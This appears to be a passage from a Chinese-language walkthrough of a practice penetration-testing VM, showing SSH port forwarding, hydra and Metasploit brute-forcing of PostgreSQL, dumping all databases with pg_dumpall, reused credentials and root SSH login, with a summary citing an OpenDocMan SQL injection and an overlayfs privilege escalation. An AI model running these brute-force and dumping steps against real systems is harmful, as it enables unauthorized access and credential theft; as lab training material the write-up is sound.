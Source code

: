 开启python http服务下载：
tar -zxvf post.tar.gz   ---解压
解压开里面都是hydra源码！

netstat -tlp
postgresql：5432  开启着！

**ssh端口转发：**
ssh webmin@10.211.55.42 -L 5432:localhost:5432   ---ssh端口转发
webmin1980  
这时候本地就开启了5432端口！

------暴力破解方法1：hydra
/usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt

hydra -L /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -P /usr/share/metasploit-framework/data/wordlists/postgres_default_user.txt -s 5432 127.0.0.1 postgres -vvv
[5432][postgres] host: 127.0.0.1   login: postgres   password: postgres

------暴力破解方法2：MSF
msfconsole
use auxiliary/scanner/postgres/postgres_login
set RHOSTS 127.0.0.1
[+] 127.0.0.1:5432 - Login Successful: postgres:postgres@template1

------------------

pg_dumpall用来提取我们可以访问的所有数据库：
PGPASSWORD="postgres" pg_dumpall -U postgres -h localhost -p 5432

发现账号密码：
vulnosadmin
c4nuh4ckm3tw1c3

ssh vulnosadmin@10.211.55.42
c4nuh4ckm3tw1c3

进来后ls发现目录存在：r00t.blend 3d建模

ssh root@10.211.55.42
ab12fg//drg
成功登录root权限！！！


总结：
OpenDocMan 1.2.7 cms sql注入（CVE-2014-1945）
Linux内核3.13.0 < 3.19(Ubuntu 12.04/14.04/14.10/15.04)-“overlayfs”本地提权
hydra爆破postgresql数据库用户名和密码
blender软件查看.blender后缀3d建模文件以寻找root用户ssh密码


-----------
知识拓展：
1）Drupal 7简单分析

searchsploit Drupal 7
gedit /usr/share/exploitdb/exploits/php/webapps/44449.rb

